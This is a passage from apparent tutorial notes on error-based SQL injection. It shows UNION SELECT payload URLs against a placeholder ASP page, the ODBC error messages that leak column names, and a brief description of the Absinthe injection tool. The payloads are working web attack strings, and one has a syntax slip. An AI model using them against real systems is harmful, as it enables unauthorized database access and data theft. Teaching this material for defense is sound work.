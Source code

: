 > Microsoft OLE DB Provider for ODBC Drivers error ‘80040907'
> [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'rlkfooB' to a column of data type int.
> /index.asp, line 6

---


### Acquiring Table Column Names

Once table identified, obtaining the column names provides valuable information concerning the table and its contents.

Examples:
- acquire column names by accessing the database table `INFORMATION_SCHEMA.COLUMNS`.
- The injection attack begins with the URL:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'parts' --`
  - The corresponding **ODBC error message**: gives the first column name in `Parts` table as `partnum`

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07‘
> [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partnum' to a column of data type int.
> /index.asp, line 6

- To obtain, the second column name, the expression `not IN ()` can be applied as shown:
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'parts' WHERE COLUMN_NAME not IN ('partnum') --`
  - The corresponding **ODBC error message**: provides the next column name as `partcost`.

> Microsoft OLE DB Provider for ODBC Drivers error '80040907‘
> [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partcost‘ to a column of data type int.
> /index.asp, line 6

In this manner, all the remaining columns in the table can be found.


---


## Automated SQL Injection Tools

A series of automated tools for finding SQL injection vulnerabilities and SQL injection attacks.


popular SQL injection tools：

**Absinthe**
- an automated tool
- to implement SQL injections and retrieve data from a web server database.
- The Absinthe screen interface supports entering target data, such as the URL, Web application injectable parameters, cookies, delays, speedups, and injection options.

![Pasted Graphic](https://i.imgur.com/Byivv9Y.jpg)
